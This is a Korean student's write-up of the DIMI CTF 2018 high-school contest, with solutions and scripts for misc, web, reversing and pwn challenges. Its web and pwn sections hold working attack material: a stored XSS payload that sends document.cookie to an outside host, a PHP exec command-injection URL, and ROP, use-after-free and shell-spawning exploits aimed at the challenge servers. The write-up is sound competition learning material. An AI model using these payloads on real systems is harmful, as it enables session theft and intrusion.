


# DIMI CTF 2018 (high school) Write Up


2018년 6월 17일 9:00 ~ 2018년 6월 17일 18:00 (9시간)

Solve : Pwn - 4/5, REV - 3/5, WEB - 2/5, MISC - 3/5

Rank : 2

NickName : NextLine

Name : 이영주 (선린인터넷고)


## Misc

### MIC CHECK  ( 10p )

```
Can you speak?

FLAG : dimi{Hello, DIMIGO!}
```

flag : dimi{Hello, DIMIGO!}


### Number Baseball  ( 960p )

```
nc 121.170.91.16 9623
```

숫자야구에서 20번을 승리하면 된다.


```python
#!/usr/bin/env python3

import re
from math import log
from copy import copy
from random import shuffle, randrange, seed


seed(42)

NUM_DIGITS = 4


def is_allowed_number(number):
    return len(str(number)) == NUM_DIGITS and len(set(str(number))) == NUM_DIGITS


ALL_NUMBERS = [number for number in range(1000, 10000) if is_allowed_number(number)]
POTENTIAL_ANSWERS = [(0, 1), (0, 2), (1, 1), (1, 0), (0, 0), (0, 3), (1, 2), (2, 0), (2, 1), (3, 0), (0, 4), (1, 3), (2, 2), (4, 0)]
# this order should accelerate the execution of question_entropy()


def count_bulls_and_cows(number, question):
    number = str(number)
    question = str(question)
    bulls = 0
    cows = 0
    for i in range(NUM_DIGITS):
        for j in range(NUM_DIGITS):
            if number[i] == question[j]:
                if i == j:
                    bulls += 1
                else:
                    cows += 1
    return (bulls, cows)


def number_is_consistent_with_qa(number, question, answer):
    return count_bulls_and_cows(number, question) == answer


def count_possible_numbers(history, allowed_numbers):
    count = 0
    for number in allowed_numbers:
        if all(number_is_consistent_with_qa(number, question, answer) for question, answer in history):
            count += 1
    return count


def get_unique_possible_number(history):
    for number in ALL_NUMBERS:
        if all(number_is_consistent_with_qa(number, question, answer) for question, answer in history):
            return number


def question_entropy_by_history(history, allowed_numbers):
    current_min_entropy = 10 ** 9
    def question_entropy(question):
        nonlocal current_min_entropy
        result = 0
        for answer in POTENTIAL_ANSWERS:
            count = count_possible_numbers([(question, answer)], allowed_numbers)
            if count > 0:
                result += - log(1 / count) * count
                if result > current_min_entropy:
                    return result
        current_min_entropy = result
        return result
    return question_entropy


def get_best_question(step, history, current_allowed_numbers):
    if step > 1:
        for number in list(current_allowed_numbers):
            if not number_is_consistent_with_qa(number, *history[-1]):
                current_allowed_numbers.remove(number)

    sample = list(current_allowed_numbers)
    shuffle(sample)
    sample = sample[:10 ** (step - 1)]
    return min(sample, key=question_entropy_by_history(history, current_allowed_numbers))


class Game:
    def __init__(self):
        self.history = []
        self.i = 0
        self.current_allowed_numbers = set(ALL_NUMBERS)

    def is_finished(self):
        return count_possible_numbers(self.history, ALL_NUMBERS) <= 1

    def get_question(self):
        assert not self.is_finished()
        self.i += 1
        self.last_question = get_best_question(self.i, self.history, self.current_allowed_numbers)
        return self.last_question

    def put_answer(self, answer):
        assert len(answer) == 2
        self.history.append((self.last_question, answer))

    def get_step(self):
        if self.is_finished():
            return self.i if self.history[-1][1][0] == 4 else self.i + 1
        else:
            return self.i

    def is_correct(self):
        return count_possible_numbers(self.history, ALL_NUMBERS) > 0

    def guessed_number(self):
        return get_unique_possible_number(self.history)


def interactive_game():
    print("""This is 'Bulls and cows' solver
Author: Vitaly Pavlenko, http://vk.com/vitalypavlenko
Date: Nov 11 2012
Think of some number of four digits.  All digits should be different.
For every question please answer two numbers: bulls and cows.
Example: if your secret number is 1234 and my question is 1453, you should answer '1 2'.
""")
    game = Game()
    while not game.is_finished():
        question = game.get_question()
        print('Question #{0}: {1}'.format(game.get_step(), question))
        answer = tuple([int(i) for i in re.findall(r'[0-9]+', input())])  # should be a tuple of two numbers
        if len(answer) != 2:
            raise ValueError('your answer should contain exactly two numbers')
        game.put_answer(answer)
    if game.is_correct():
        print("Your number is {0}.  It took me {1} steps to guess it.".format(game.guessed_number(), game.get_step()))
    else:
        print("It seems that you've made a mistake somewhere.")


def test_all_numbers():
    worst_number_of_steps = 0
    for number in ALL_NUMBERS:
        print('Testing number {0}'.format(number))
        game = Game()
        while not game.is_finished():
            question = game.get_question()
            print('  Question #{0}: {1}'.format(game.get_step(), question))
            answer = count_bulls_and_cows(number, question)
            print('  Answer: {0}'.format(answer))
            game.put_answer(answer)
        assert game.is_correct()
        if game.get_step() > worst_number_of_steps:
            worst_number_of_steps = game.get_step()
        print('  Total number of steps:', game.get_step())
        print('  The worst one was:    ', worst_number_of_steps)


if __name__ == "__main__":
    interactive_game()
# test_all_numbers()
```

- solver.py

```python
from ntpwn import *

def makenumber(num):
	fullnum = ''
	for i in num:
		fullnum += i + " "
	return fullnum[:-1]

def makeresult(result):
	result = result.replace('STRIKE ','')
	result = result.replace('BALL ','')
	return result

while True:
	try :
		s = remote('121.170.91.16',9623)
		p = process(['python3','solver.py'])
		count = 0

		p.recvuntil(' you should answer \'1 2\'.\n\n')
		data = makenumber(p.recvline()[:-1][13:])

		log.info("Data : " + data)

		s.recvuntil('GUESS > ')
		s.recvuntil('GUESS > ')
		s.sendline(data)
		result = makeresult(s.recvline()[:-1])

		log.info("Result : " + result)
		p.sendline(result)
		#debug()

		while True:
			log.info("COUNT : " + str(count))
			if count == 15:
				s.interactive()
			recvdata = p.recvline()[:-1]
			if recvdata.find('Your number is') != -1:
				count += 1
				log.info("FIND : " + makenumber(recvdata[15:19]))
				s.sendline(makenumber(recvdata[15:19]))
				s.recvuntil('==================\n')
				p.close()
				p = process(['python3','solver.py'])
				p.recvuntil(' you should answer \'1 2\'.\n\n')
			else :
				data = makenumber(recvdata[13:])
				log.info("Data : " + data)
				s.recvuntil('GUESS > ')
				s.sendline(data)
				result = makeresult(s.recvline()[:-1])
				log.info("Result : " + result)
				if result != '4 0':
					p.sendline(result)
				else :
					count += 1
					s.recvuntil('==================\n')
					p.close()
					p = process(['python3','solver.py'])
					p.recvuntil(' you should answer \'1 2\'.\n\n')

	except :
		s.close()
		p.close()
```

- ex.py

solver가 중간에 터지는일이 자꾸 생겨서 15번 브포로 돌려주고 5번 손으로 솔버를 이용해 맞춰줬다.

flag : dimi{Do you know? Numerical baseball is called a bull-cow game in foreign countries.}


### Win RSP  ( 830p )

```
flag 형식 : flag{ "무엇인가" }, dimi{}가 아닙니다.
DOWNLOAD
```


jd-gui로 자바 코드를 보면 flag를 출력해주는 부분이 있는데 자바로 그대로 쳐주면 된다.

flag : flag{Are_you_Genius_or_Stupid?}
 

## Web

### Boxipreter  ( 880p )

```
php ssh.....? this is so vulnerable....

http://121.170.91.18/Boxipreter
```


```python
<?php

$f = $_GET['f'];
$a1 = $_GET['a1'];

echo "f : ".$f;
echo "a1 : ".$a1;

echo "<br>";
echo "go : ".$f($a1);

?>
```

- ex.php

```url
http://121.170.91.18/Boxipreter/tmp/tmp_0bed45bd5774ffddc95ffe500024f628.php?f=exec&a1=cat%20/var/www/html/Boxipreter/flag
```

- payload

검색하다가 비슷한 풀이법이 있길래 복붙했다.

flag : dimi{B0x1Pr3teR_1s_ver7\_@wesome_!1!}


### DIMI SIMPLE BOARD 2  ( 920p )

```
관리자는 여러분들의 의견을 잘 듣습니다.
BLIND STORED XSS
http://121.170.91.15/jtjjtjjtjjtjjtjj/
```


```javascript
<script>location="http://youngjoo.nefus.kr/web/?g="+document.cookie</script>
```

- payload

```
PHPSESSID=6c0tpicbdlg2qf93fvivm5mbd7
```

- 얻은 값

blind store xss가 뭔지는 모르겠지만 test xss코드를 써놓고 다른문제 풀다가 파일 보니까 PHPSESSID값이 전송되어 있었다. 그래서 쿠키를 설정했더니 풀렸다.

flag : dimi{this_is_blind_store_xss} 


## Rev

### EZPZ  ( 500p )

dotnet을 디컴파일 해보면 flag가 나온다.

flag : dimi{Welcome_reversing}


### mm  ( 930p )

```
DOWNLOAD
```


```python
from ctypes import *

libc = CDLL('libc.so.6')
libc.srand(0x17A3)
tb = [0x73A8, 0x39CC, 0x4E0A, 0x8D85, 0xD1F2, 0x7776, 0x272E, 0xAB31, 0x8F34, 0x4659, 0xE7AC, 0xA308, 0x154D, 0x7D9F, 0x7123, 0xF8DB, 0x49C4, 0x5BB8, 0x2274, 0xDD76, 0xC29D, 0x7048, 0x52AE, 0x1361, 0xC98C, 0x73A6, 0x870A, 0x8870, 0x748D, 0x0669, 0x8C8F, 0xE8A9, 0x40B1, 0xDABF, 0x76C7, 0x133D, 0x52B2, 0x9E59, 0xBE76, 0xE248, 0xE4DD, 0xA6C5, 0x856E, 0xFAB7, 0x2465, 0xF6F7, 0xF41C, 0x6E93, 0x535A, 0x16DA, 0x4C54, 0x166D, 0x87A4, 0x9F0F, 0x29DD, 0x51A3, 0x1327, 0xB13A]
flag = ''
for i in range(len(tb)):
	rd = libc.rand() % 0x10000
	for j in range(0xff):
		if (rd * j) % (rd + 1) == tb[i]:
			flag += chr(j)
			break

print flag
```

- ex.py

단순 역연산하면 된다.

flag : dimi{ca1cul4t3d_inv3rs3?_0r_us3d_z3?_0h_y0u_ar3_4_F0Ol_;)}


### Table  ( 970p )

```
DOWNLOAD
```


```python
from ntgdb import *
import string

bp('0x555555554000+0xbe6')
flag = ''
chars = string.ascii_uppercase + string.ascii_lowercase + string.digits

for i in range(15):
	for char in chars:
		tmp = flag + char
		ex("r < <(python -c \'print \"%s\"\')" % tmp.ljust(15,'A'))
		for j in range(i):
			ex('c')
		con = ex('p/x $cl==$al',True,True)
		if con.split()[2] == '0x1':
			print("FIND!! : " + char)
			flag += char
			break

print(flag)
# INCAACKEDNCHIBC
```

- ex.py

역연산 짜려다가 귀찮아서 사이드채널로 풀었더니 금방 풀렸다. 위 코드로 돌리면 문자열이 나오는데 그걸 입력해주면 플레그가 나온다.

flag : dimi{1T$_N3VER_E@SY!}


## Pwn

```
서버 바이너리에는 정상적으로 플래그가 있습니다
nc 121.170.91.17 9901
DOWNLOAD
```


```
youngjoo@ubuntu16 init$ nc 121.170.91.17 9901
Do you want to do?
[R]ead
[W]rite
[E]xit
>>> W
length: 1000
hQ��4�����bVdimi{A110cAt3_1s_$o_1mp0rt@n7}@@$��,%b�N砪�bV0H��4H@$���<�����bVJ!�6���U���bV@@$��J!K9�(J!{�SԸX@$��hQ��4����4���bV@@$��ڧ�bV8@$��eO$��jO$���O$���O$���O$��!�:�����d@��bV8	���4   ���bV
                                     �
���A$���O$���A$���,%b�N�ձ���|��x86_64Do you want to do?
```

단순히 write 해주면 풀린다. 이거 모르고 쉘따고 좋아했는데,,

flag : dimi{A110cAt3_1s_$o_1mp0rt@n7}


### BabyCpp  ( 880p )

```
nc 121.170.91.17 7777
DOWNLOAD
```


```python
from ntpwn import *

#s = process('./babycpp')
s = remote('121.170.91.17',7777)

def go(menu):
	s.sendlineafter('>>> ',menu)

sc = list()
sc.append('tracemalloc on')
sc.append('c')
sc = makesc(sc)

#gdb.attach(s,sc)
go('S')
go('N')
s.recvuntil('Shell address: 0x')
leak = int(s.recvline()[:-1],16) - 0x1998 + 0x202d10
log.info("LEAK : " + hex(leak))

go('V')
go('N')

go('V')
go('D')

go('C')
go('N')

go('C')
go('W')

s.sendline("A" + p64(leak))

go('V')
go('C')
s.interactive()
```

leak을 주니까 leak하고 uaf이용해서 get_flag 함수 불러주면 된다.

flag : dimi{Cpp_1s_e@5y_and_d1ff1cult}


### what ( 902 p )

```
cat flag

ssh what@121.170.91.19 (password : what)
```


```
./what 4294901776 /bin/sh
```

- oob나서 값 잘 맞춰주면 system을 호출할 수 있다.

### treefrog  ( 940p )

```
nc 121.170.91.17 10101
DOWNLOAD
```


```python
from ntpwn import *

#s = process('./treefrog')
s = remote('121.170.91.17',10101)

def mp(pay):
	rpay = list(pay)
	rpay.reverse()
	return "".join(rpay)

'''
sc = list()
sc.append('b *0x400650')
sc.append('c')
sc = makesc(sc)
'''

e = ELF('./treefrog')
l = ELF('/lib/x86_64-linux-gnu/libc.so.6')

prdi = 0x00000000004006c3
pprsi = 0x00000000004006c1
write = 0x400632

payload = 'A' * 0x88 + p64(0)
payload += 'A' * 8 + p64(pprsi) + p64(e.got['write']) + 'B' * 8
payload += p64(e.plt['write'])
payload += p64(prdi) + p64(0)
payload += p64(e.plt['read'])
payload += p64(e.plt['write'])

#gdb.attach(s,sc)
s.send(payload)

s.recvuntil('A' * 0x88)
libc = u64(s.recv(8)) - l.symbols['write']
log.info("LIBC : "+ hex(libc))

oneshot = libc + 0x4526a

pause()
s.sendline(p64(oneshot) * 0x10)

s.interactive()
```

- ex.py

사용하는 변수 bof로 \x00으로 맞춰주고 rop하면 된다.

flag : dimi{R1bb!t_r1bb!t_fr0g_1s\_$in9!ng_@_s0ng}

